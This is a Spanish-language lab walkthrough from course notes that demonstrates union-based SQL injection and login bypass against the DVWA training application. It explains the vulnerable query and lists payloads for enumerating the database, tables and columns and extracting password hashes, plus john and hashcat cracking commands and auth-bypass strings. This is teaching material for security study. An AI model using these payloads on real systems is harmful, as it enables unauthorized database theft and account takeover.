

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Vulnerabilidades Web/00 - Índice del Módulo Vulnerabilidades Web|Índice del Módulo]]

---
# SQL Injection - Union-Based (DVWA)

# 💾 SQL Injection - Union-based y Explotación

 
 

## 📖 Prueba de Concepto (PoC)

 

### 🔓 Explotación de SQL Injection

 

Una **SQL Injection** sucede cuando un usuario malintencionado intenta introducir un valor que consigue modificar la consulta SQL que es enviada al servidor desde la aplicación web, permitiendo al usuario acceder directamente a los datos.

 

> [!note]
> 
 
> #### 💡 Dos Formas de Explotación:
> 
 
> La explotación puede deberse a dos factores:
> 

> 
> 1. **Inyectar código que valide como verdadero:** Usar operadores lógicos como `OR '1'='1'` que siempre devuelven TRUE
> 
> 2. **Comentar el resto del código:** Usar caracteres de comentario (`#`, `--`) para ignorar validaciones posteriores
> 

> 

 

### 📚 Diccionarios de Payloads

 

En Kali disponemos de diccionarios de payloads en:

 

```
/usr/share/wordlists/seclists/Fuzzing/SQLi/
```

 



 

> [!warning]
> 
 
> **📋 Diccionarios Útiles:**
> 

> 
> * `Generic-SQLi.txt` - Payloads genéricos de SQLi
> 
> * `SQLi-Auth-Bypass.txt` - Bypass de autenticación
> 
> * `quick-SQLi.txt` - Payloads rápidos de detección
> 

> 

 

 
 

## 🎯 Accediendo a la Base de Datos (Seguridad Low)

 

### 🔍 Paso 1: Comprender el Funcionamiento Normal

 

Como siempre, vamos a la sección "SQL Injection" y vemos el funcionamiento normal de la web.

 

Escribimos un número, y la base de datos nos devuelve el usuario al que pertenece esa ID.

 

Ponemos el número de ID para ver los 5 usuarios.

 

> [!tip]
> 
 
> #### 🔍 Código Vulnerable en el Servidor:
> 
 ****
> ```sql
> $query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"
> $result = mysqli_query($GLOBALS["___mysqli_ston"], $query )...
> ```
> 
 
> Al hacer la consulta, la base de datos comprueba la ID que hemos proporcionado y utiliza otra variable (`$result`) que será **verdadero** si la variable existe o **falso** si no existe.
> 

 

> [!warning]
> 
 
> **🎯 Objetivo de la práctica:** Encontrar las claves de los 5 usuarios del sistema.
> 

 

 
 

## 💥 Explotación Union-Based SQLi

 

### 🔓 Paso 1: Mostrar Todos los Registros

 

**Si ponemos lo siguiente sale toda la lista:**

 

#### Payload 1: OR siempre verdadero

 

```
1' or '0'='0
```

 

Consulta resultante en el servidor:
 

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' or '0'='0';
```

 

> [!note]
> 
 
> #### 💡 ¿Por qué funciona?
> 
 
> `'0'='0'` es siempre **verdadero**, por lo que la condición OR hace que se devuelvan **todos los registros** de la tabla users.
> 

 

#### Payload 2: OR con comentario

 

```
1' or 0=0 #
```

 

Consulta resultante:
 

```bash
SELECT first_name, last_name FROM users WHERE user_id = '1' or 0=0 # ';
```

 

> [!note]
> 
 
> #### 💡 Uso de comentarios:
> 
 
> El uso de la almohadilla (`#`) **comenta** todo lo que viene detrás del payload, por lo que al introducirlo en el código:
> 

> 
> * `0=0` devuelve TRUE
> 
> * La comilla final `'` queda comentada y no causa error de sintaxis
> 
> * Se muestran todos los registros
> 

> 

 

### 🔍 Paso 2: Averiguar la Versión de MySQL

 

```sql
1' union select 1,@@version #
1' union select 1,@@version -- -
```

 

> [!tip]
> 
 
> #### 🔧 Caracteres de Comentario en SQL:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> `#`
> 
> `1' OR 1=1 #`
> 
> 
> `-- -`
> 
> `1' OR 1=1 -- -`
> 
> 
> `/**/`
> 
> `1'/**/OR/**/1=1`
> 
> 
> 
> | Carácter | Base de Datos | Ejemplo |
> | --- | --- | --- |
> | | MySQL | |
> | | MySQL, MSSQL, PostgreSQL | |
> | | MySQL, MSSQL | |
> 
 
> **Nota:** El espacio después de `--` es importante en algunos motores de BD.
> 

 

### 🗄️ Paso 3: Averiguar el Nombre de la Base de Datos

 

```sql
1' union select 1,database() #
```

 

**Resultado:** Nombre de la base de datos: `dvwadb`

 

### 📋 Paso 4: Averiguar la Tabla de Usuarios

 

```sql
1' and 1=0 union select 1, table_name from information_schema.tables where table_name like 'user%' #
```

 

**Resultado:** Nombre de la tabla: `users`

 

> [!note]
> 
 
> #### 💡 information_schema:
> 
 
> `information_schema` es una base de datos especial de MySQL que contiene **metadatos** sobre todas las bases de datos:
> 

> 
> * `information_schema.tables` - Lista de todas las tablas
> 
> * `information_schema.columns` - Lista de todas las columnas
> 
> * `information_schema.schemata` - Lista de todas las bases de datos
> 

> 

 

### 🔑 Paso 5: Averiguar las Columnas de la Tabla Users

 

```sql
1' and 1=0 union select 1, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```

 

**Objetivo:** Columnas `user` y `password`

 

> [!tip]
> 
 
> #### 🔧 Funciones SQL Útiles:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> `concat()`
> 
> `concat('user:', user)`
> 
> 
> `0x0a`
> 
> `concat(table, 0x0a, column)`
> 
> 
> `database()`
> 
> `SELECT database()`
> 
> 
> `@@version`
> 
> `SELECT @@version`
> 
> 
> `user()`
> 
> `SELECT user()`
> 
> 
> 
> | Función | Descripción | Ejemplo |
> | --- | --- | --- |
> | | Concatena cadenas | |
> | | Salto de línea en hexadecimal | |
> | | Nombre de la BD actual | |
> | | Versión de MySQL | |
> | | Usuario actual de MySQL | |
> 
 

 

### 🏆 Paso 6: Extraer las Passwords de los Usuarios

 

```sql
' or 1=1 union select user, password from users #
```

 

> [!tip]
> 
 
> #### 🎉 ¡Éxito!
> 
 
> Con este payload extraemos todos los usuarios y sus hashes de contraseñas de la base de datos.
> 
> **Siguiente paso:** Crackear los hashes MD5 usando herramientas como:
> 

> 
> * `john --format=raw-md5 hashes.txt`
> 
> * `hashcat -m 0 hashes.txt rockyou.txt`
> 
> * Servicios online como CrackStation
> 

> 

 

 
 

## 🔐 Authentication Bypass - Saltando Credenciales

 

### 📖 Concepto

 

SQL Injection también puede usarse para **saltarse credenciales de acceso** a una plataforma.

 

El concepto sería el mismo: poder inyectar cierto código que valide un usuario. Y como en el caso anterior se basan o por pasar un **TRUE** a la consulta, o por **comentar** el resto de código que pueda venir detrás de la comprobación.

 

### 💣 Payloads Comunes para Auth Bypass

 

> [!warning]
> 
 
> #### 🎣 Auth Bypass - Provocando TRUE:
> 
 
> ```sql
> Usuario: admin' or '1'='1
> Password: something
> 
-- Consulta resultante:
> SELECT * FROM users WHERE username='admin' or '1'='1' AND password='something'
> -- '1'='1' siempre es TRUE, por lo que el OR hace que toda la condición sea TRUE
> ```
> 
 

 

> [!warning]
> 
 
> #### 🎣 Auth Bypass - Doble TRUE:
> 
 
> ```sql
> Usuario: admin' or '1'='1
> Password: ' or '1'='1
> 
-- Consulta resultante:
> SELECT * FROM users WHERE username='admin' or '1'='1' AND password='' or '1'='1'
> -- Ambas condiciones son TRUE
> ```
> 
 

 

> [!warning]
> 
 
> #### 🎣 Auth Bypass - Comentarios SQL:
> 
 
> ```bash
> -- Opción 1: Comentar la validación de password
> Usuario: admin'--
> Password: (cualquier cosa)
> 
-- Opción 2: Cerrar paréntesis adicional
> Usuario: admin')--
> Password: (cualquier cosa)
> 
-- Opción 3: Login como usuario con ID específico
> Usuario: ' OR id='5') --
> Password: (cualquier cosa)
> 
-- Opción 4: Usando # como comentario
> Usuario: admin' #
> Password: (cualquier cosa)
> ```
> 
 

 

> [!warning]
> 
 
> **📚 Recurso Recomendado:**
> 
> Auth Bypass: Listado con muchas opciones en PayloadsAllTheThings - Authentication Bypass
> 

 

### 🧪 Paso 1: Probar Payloads en DVWA

 

Vamos al apartado **"Brute Force"** de la propia DVWA y vamos a probar los payloads anteriores a ver cuáles de ellos funcionan y cuáles no.

 

Puedes ir a la web del enlace PayloadsAllTheThings y probar algunos otros.

 

> [!tip]
> 
 
> #### 🔧 Tabla de Payloads de Auth Bypass:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> `admin' or '1'='1`
> 
> 
> 
> 
> `' or '1'='1`
> 
> 
> 
> 
> `admin'--`
> 
> 
> 
> 
> `admin')--`
> 
> 
> 
> 
> `admin' #`
> 
> 
> 
> 
> `' OR id='1'--`
> 
> 
> 
> 
> `' OR 1=1--`
> 
> 
> 
> 
> 
> | Payload | Campo | Técnica |
> | --- | --- | --- |
> | | Usuario | OR siempre TRUE |
> | | Usuario y Password | Doble TRUE |
> | | Usuario | Comentar password |
> | | Usuario | Cerrar paréntesis + comentar |
> | | Usuario | Comentario MySQL |
> | | Usuario | Login como ID específico |
> | | Usuario | OR siempre TRUE + comentar |
> 
 

 

 
 

## 📚 Resumen

 

> [!tip]
> 
 
> ### 🎓 Lo que hemos aprendido:
> 
 

> 
> * ✅ Union-based SQLi permite extraer datos de otras tablas
> 
> * ✅ information_schema contiene metadatos de todas las bases de datos
> 
> * ✅ Se puede enumerar: versión, BD actual, tablas y columnas
> 
> * ✅ Los comentarios SQL (#, --) permiten ignorar validaciones
> 
> * ✅ OR siempre TRUE ('1'='1') bypasea autenticación
> 
> * ✅ Auth Bypass permite login sin credenciales válidas
> 
> * ✅ concat() y 0x0a son útiles para formatear resultados
> 

> 
 
> ### 🔑 Fases de Explotación Union-Based SQLi:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> **1. Detección**
> 
> `1' or '1'='1`
> 
> 
> **2. Enumeración de columnas**
> 
> `1' UNION SELECT NULL,NULL #`
> 
> 
> **3. Versión de BD**
> 
> `1' UNION SELECT 1,@@version #`
> 
> 
> **4. Nombre de BD**
> 
> `1' UNION SELECT 1,database() #`
> 
> 
> **5. Enumerar tablas**
> 
> `... FROM information_schema.tables`
> 
> 
> **6. Enumerar columnas**
> 
> `... FROM information_schema.columns`
> 
> 
> **7. Extracción de datos**
> 
> `' UNION SELECT user,password FROM users #`
> 
> 
> 
> | Fase | Objetivo | Payload Ejemplo |
> | --- | --- | --- |
> | | Confirmar vulnerabilidad | |
> | | Saber número de columnas | |
> | | Identificar motor SQL | |
> | | Saber BD actual | |
> | | Listar tablas | |
> | | Listar columnas de tabla | |
> | | Robar información | |
> 

> 
> ### 🎯 Navegación:
> 
 
> ← Anterior: 07-01 - SQL Injection (Fundamentos)
> 
> → Siguiente: 07-03 - SQL Injection (SQLMap)
> 
> ↑ Volver al Índice del Módulo
>

---

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Vulnerabilidades Web/00 - Índice del Módulo Vulnerabilidades Web|Índice del Módulo]]
